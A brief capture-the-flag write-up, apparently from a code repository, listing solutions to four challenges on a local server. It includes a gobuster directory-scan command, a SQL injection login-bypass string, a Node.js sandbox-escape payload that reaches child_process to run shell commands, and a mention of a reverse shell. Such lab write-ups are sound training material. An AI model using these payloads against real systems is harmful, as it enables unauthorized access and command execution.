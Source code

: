 # Writeups

## 1

```
gobuster dir -x txt -u http://localhost:1337/ -w directory-list-2.3-medium.txt
```

Will point to `/security`, where the flag is hidden with the link to the next challenge.

## 2

```
username: " OR 1=1))--
password:
```

## 3

```
this.constructor.constructor('return this.process')().mainModule.require('child_process').execSync('cat /home/k1dd13/FLAG').toString()
```

## 4

Use prior to reverse-shell or enter by hand script in `./4/solve.sh`.
